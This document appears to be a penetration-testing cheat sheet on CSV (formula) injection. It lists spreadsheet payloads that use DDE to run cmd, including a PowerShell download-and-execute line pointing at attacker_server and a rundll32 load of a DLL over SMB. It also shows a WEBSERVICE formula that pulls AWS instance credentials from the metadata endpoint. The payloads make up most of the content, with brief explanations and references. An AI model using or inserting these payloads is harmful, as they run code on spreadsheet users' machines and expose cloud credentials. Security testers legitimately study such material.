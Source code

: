 # CSV Injection (Formula Injection)

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel,Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

### Special Considerations
When it appears the application you are testing is processing the CSV/Excel documents, it may be possible to combine
the formula injection with use of the `=WEBSERVICE("http://169.254.169.254/latest/user-data")` call to obtain sensitive information. Such as in the case of AWS
systems you could possibly obtain the AWS credentials via http://169.254.169.254/latest/user-data endpoint if not configured properly.

## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/index.php/CSV_Excel_Macro_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection)
* [Comma Separated Vulnerabilities - James Kettle](https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [CSV Injection -> Meterpreter on Pornhub - @ZephrFish Andy](https://news.webamooz.com/wp-content/uploads/bot/offsecmag/147.pdf)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
